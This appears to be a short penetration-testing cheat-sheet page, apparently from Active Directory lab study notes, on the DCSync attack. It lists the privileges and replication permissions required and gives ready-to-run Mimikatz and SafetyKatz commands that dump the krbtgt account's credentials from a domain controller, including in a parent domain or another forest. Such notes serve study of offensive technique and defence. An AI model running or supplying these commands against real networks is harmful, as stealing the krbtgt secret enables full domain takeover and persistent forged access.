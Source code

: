 # DC Sync

Need **Domain Admin**, **Enterprise Admin** or **Domain Controller** privilege to make this attack happen.

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"' 

SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"

# For parent domain or different forest
SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```
{% endcode %}

For DCsync to work below two are the main permissions that are needed:

* Replicating Directory Changes
* Replicating Directory Changese All
